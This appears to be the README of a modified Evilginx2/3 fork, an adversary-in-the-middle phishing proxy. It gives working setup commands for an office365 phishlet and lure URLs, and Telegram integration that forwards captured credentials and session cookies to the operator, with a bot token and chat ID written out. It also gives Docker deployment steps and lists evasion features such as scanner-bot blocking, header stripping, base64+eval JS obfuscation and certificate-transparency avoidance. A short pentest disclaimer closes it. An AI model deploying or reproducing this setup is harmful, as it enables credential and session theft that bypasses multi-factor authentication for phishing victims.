Step 5: Run Evilginx3 with Dashboard

./evilginx2 -dashboard 0.0.0.0:5000 -dashboard-user admin -dashboard-pass YOUR_STRONG_PASSWORD

Step 6: Configure Inside the Console

: config domain yourdomain.com
: config ipv4 external YOUR_SERVER_IP
: config autocert on
: config unauth_url https://www.google.com
: config teletoken YOUR_TELEGRAM_BOT_TOKEN
: config chatid YOUR_TELEGRAM_CHAT_ID
: config telegram test


Step 7: Enable a Phishlet and Create a Lure

: phishlets hostname office365 yourdomain.com
: phishlets enable office365
: lures create office365
: lures get-url 0

📱 Telegram Integration
Setup
Step 1: Create a Bot

Open Telegram, search for @BotFather
Send /newbot
Choose a name (e.g., My Security Monitor) and username ending in _bot (e.g., my_security_bot)
Copy the bot token: 8863425004:AAF7mZ0poUo6dal8-8FgUNgRkIhkPlylAvo
Step 2: Get Your Chat ID

# Message your bot first, then:
curl -s "https://api.telegram.org/botYOUR_TOKEN/getUpdates"
# Look for: "chat":{"id":7545456339,...}

Step 3: Configure in Evilginx

: config teletoken 8863425004:AAF7mZ0poUo6dal8-8FgUNgRkIhkPlylAvo
: config chatid 7545456339
: config telegram test

Notification Behavior

Event	Action
First credential/token capture	New Telegram message with credentials + .txt attachment
Additional tokens for same session	Same message updated via editMessageMedia API
Telegram unreachable	Jobs queued (buffer: 100), processed when available

📊 Web Dashboard
Launch with dashboard flags:

./evilginx2 -dashboard 0.0.0.0:5000 -dashboard-user admin -dashboard-pass YOUR_PASSWORD
Then open http://YOUR_SERVER_IP:5000 in your browser.

Run without dashboard:

./evilginx2 -dashboard ""    # disables the web interface

🐳 Docker Support
Quick Build & Run

# Build
docker build -t evilginx2-telegram .

# Run
docker run -d \
  --name evilginx2 \
  --restart unless-stopped \
  -p 53:53/udp \
  -p 80:80 \
  -p 443:443 \
  -p 5000:5000 \
  -v evilginx-data:/home/evilginx/.evilginx \
  evilginx2-telegram \
  -dashboard 0.0.0.0:5000 \
  -dashboard-user admin \
  -dashboard-pass YOUR_STRONG_PASSWORD

Docker Compose

version: '3.8'
services:
  evilginx2:
    build: .
    container_name: evilginx2
    restart: unless-stopped
    ports:
      - "53:53/udp"
      - "80:80"
      - "443:443"
      - "5000:5000"
    volumes:
      - evilginx-data:/home/evilginx/.evilginx
    command: >
      -dashboard 0.0.0.0:5000
      -dashboard-user admin
      -dashboard-pass YOUR_STRONG_PASSWORD

volumes:
  evilginx-data:

🔧 Configuration Reference
Command-Line Flags

Flag	Default	Description
-p	./phishlets	Phishlets directory path
-t	./redirectors	HTML redirector pages directory path
-debug	false	Enable debug output
-developer	false	Self-signed certs for all hostnames (dev mode)
-c	~/.evilginx	Configuration directory path
-v	false	Show version
-dashboard	0.0.0.0:5000	Dashboard listen address (empty = disable)
-dashboard-user	admin	Dashboard username
-dashboard-pass	""	Dashboard password (empty = no auth)

Console Commands

Category	Commands
Config	config domain, config ipv4, config unauth_url, config autocert, config chatid, config teletoken, config strip_headers, config gophish, config telegram test
Phishlets	phishlets hostname, phishlets enable, phishlets disable, phishlets hide, phishlets unhide, phishlets create, phishlets delete, phishlets get-hosts, phishlets unauth_url
Lures	lures create, lures get-url, lures edit, lures delete, lures pause, lures unpause
Sessions	sessions, sessions delete, sessions <id>
Blacklist	blacklist all, blacklist unauth, blacklist noadd, blacklist off, blacklist log
Proxy	proxy enable, proxy disable, proxy type, proxy address, proxy port, proxy username, proxy password
System	test-certs, clear, help, exit

🧬 Architecture & Data Flow
Complete System Architecture


┌──────────────────────────────────────────────────────────────────────────────┐
│                              MAIN.GO                                        │
│                  Entry Point + Flag Parser + Component Init                  │
│  - Parses -dashboard, -dashboard-user, -dashboard-pass flags                │
│  - Initializes Config, Database, Blacklist, Nameserver, CertDb, HttpProxy   │
│  - Starts: Telegram Queue → Dashboard Server → Terminal                     │
└────┬────────┬────────┬────────┬────────┬────────┬────────┬──────────────────┘
     │        │        │        │        │        │        │
     ▼        ▼        ▼        ▼        ▼        ▼        ▼
┌────────┐ ┌────────┐ ┌────────┐ ┌────────┐ ┌────────┐ ┌────────┐ ┌────────┐
│Config  │ │Database│ │Blacklst│ │Name-   │ │CertDb  │ │HttpProxy│ │Terminal│
│core/   │ │db/     │ │core/   │ │server  │ │core/   │ │core/    │ │core/   │
│config  │ │database│ │blacklist│ │core/   │ │certdb  │ │http_proxy│ │terminal│
│.go     │ │.go     │ │.go     │ │ns.go   │ │.go     │ │.go      │ │.go     │
└────────┘ └────────┘ └────────┘ └────────┘ └────────┘ └────┬─────┘ └────────┘
                                                             │
                                      ┌──────────────────────┼──────────────────────┐
                                      ▼                      ▼                      ▼
                              ┌──────────────┐      ┌──────────────┐      ┌──────────────┐
                              │Telegram Queue│      │  Dashboard   │      │ Auto-Export  │
                              │core/         │      │  core/       │      │  core/       │
                              │telegram_queue│      │  dashboard.go│      │  auto_export │
                              │.go + notify  │      │  + REST API  │      │  .go         │
                              │.go + tele.go │      └──────────────┘      └──────────────┘
                              └──────────────┘
Complete Data Flow


VICTIM ───https──→ EVILGINX PROXY ───https──→ REAL WEBSITE
                       │
                       ├── Extract credentials from POST body
                       ├── Capture Set-Cookie headers (CookieTokens)
                       ├── Capture response body tokens (BodyTokens)
                       ├── Capture HTTP header tokens (HttpTokens)
                       │
                       ▼
                ┌──────────────┐
                │ Session Done?│
                └──────┬───────┘
                       │ YES
                       ▼
          ┌──────────────────────────┐
          │ Save to BuntDB (persist) │
          │ Auto-export to files     │
          │ Enqueue Telegram job     │
          └──────────────────────────┘

📂 Repository File Structure

├── main.go                              # 🚀 Entry point — flag parser, component init, Telegram Queue + Dashboard + Terminal startup

├── core/                                # 🧠 Core engine
│   ├── http_proxy.go                    #    MITM proxy (enhanced: bot protection, header stripping, URL rewriting, JS obfuscation)
│   ├── session.go                       #    In-memory session management
│   ├── config.go                        #    Config (NEW: Chatid/Teletoken setters, StripHeaders)
│   ├── notify.go                        #    📱 Telegram notification logic + .txt file creation + message edit
│   ├── telegram_queue.go                #    ⏳ Async notification queue (buffered channel, 100 jobs)
│   ├── tele.go                          #    📡 Low-level Telegram API calls (send, edit, update)
│   ├── telegram_escape.go               #    🔤 MarkdownV2 special character escaping
│   ├── tsession.go                      #    📋 Telegram session struct + DB fallback reader
│   ├── dashboard.go                     #    📊 Web dashboard (HTML template + REST API + Basic Auth)
│   ├── auto_export.go                   #    📁 Auto-export sessions to per-file or combined JSON/CSV
│   ├── whitelist.go                     #    ✅ IP whitelist (NEW: file-backed, CIDR support)
│   ├── nameserver.go                    #    🌐 DNS server
│   ├── certdb.go                        #    🔐 SSL cert management (NEW: wildcard cert auto-loading)
│   ├── blacklist.go                     #    🚫 IP blacklist
│   ├── phishlet.go                      #    🎣 Phishlet engine
│   ├── terminal.go                      #    💻 CLI interface (NEW: telegram test command)
│   ├── gophish.go                       #    🔗 Gophish integration
│   ├── banner.go                        #    🖼️ ASCII art banner
│   ├── help.go                          #    ❓ Help commands
│   ├── scripts.go                       #    📜 JS injection scripts
│   ├── shared.go                        #    🔧 Shared utilities
│   ├── table.go                         #    📋 Table formatting
│   └── utils.go                         #    🔧 Utility functions

├── database/                            # 💾 Persistence layer
│   ├── database.go                      #    BuntDB wrapper — init, helpers, CRUD dispatch
│   └── db_session.go                    #    Session struct + full CRUD operations

├── phishlets/                           # 🎣 YAML phishing templates
├── redirectors/                         # 🔀 HTML redirector pages

├── Dockerfile                           # 🐳 Multi-stage Alpine build (~18MB)
├── .dockerignore                        #    Docker build exclusions
├── docker-compose.yml                   #    Docker Compose configuration

├── Makefile                             # 🔨 Build helpers
├── go.mod / go.sum                      # 📦 Go module dependencies

├── DEPLOYMENT.md                        # 📘 Full deployment guide (12 phases, step-by-step)
├── CHANGELOG                            # 📋 Version history
├── LICENSE                              # ⚖️ BSD 3-Clause
└── README.md                            # 📖 This file

⚖️ Disclaimer

I am fully aware that Evilginx can be used for nefarious purposes. This work is merely a demonstration of what adept attackers can do. It is the defender's responsibility to take such attacks into consideration and find ways to protect their users against this type of phishing attacks.

Evilginx should be used only in legitimate penetration testing assignments with written permission from the parties being tested.

Unauthorized use of this tool is illegal and unethical. The author and contributors assume no liability for misuse.

👏 Credits & Support

Contributors

Contribution	Author	Contact
Telegram Integration — async queue, file attachments, auto-updating messages	@officialmonsterz	GitHub / Telegram / shapads@tutamail.com
Web Dashboard — HTML UI, REST API, CSV/JSON export, search, dark mode	@officialmonsterz	Same as above
Database Layer — BuntDB integration, session CRUD	@officialmonsterz	Same as above
Docker Build — multi-stage, Alpine, ~18MB	@officialmonsterz	Same as above
Auto-Export System — auto-save sessions to JSON/CSV	@officialmonsterz	Same as above
Bot Protection — multi-signal scanner/bot detection	@officialmonsterz	Same as above
Header Stripping — global OPSEC toggle	@officialmonsterz	Same as above
URL Rewriting — sensitive-path cleanup	@officialmonsterz	Same as above
JS Obfuscation — base64+eval injection	@officialmonsterz	Same as above
Dynamic unauth_url — content spoofing via proxy	@officialmonsterz	Same as above
Wildcard SSL — CT log protection	@officialmonsterz	Same as above
IP Whitelist — file-backed CIDR whitelist	@officialmonsterz	Same as above
Original Evilginx2/3 (Core Framework)	Kuba Gretzky (@mrgretzky)	kgretzky/evilginx2

Get Help
Telegram Support: t.me/officialmonsterz
Email: shapads@tutamail.com
GitHub Issues: github.com/officialmonsterz/evilginx2/issues
Repository: github.com/officialmonsterz/evilginx2
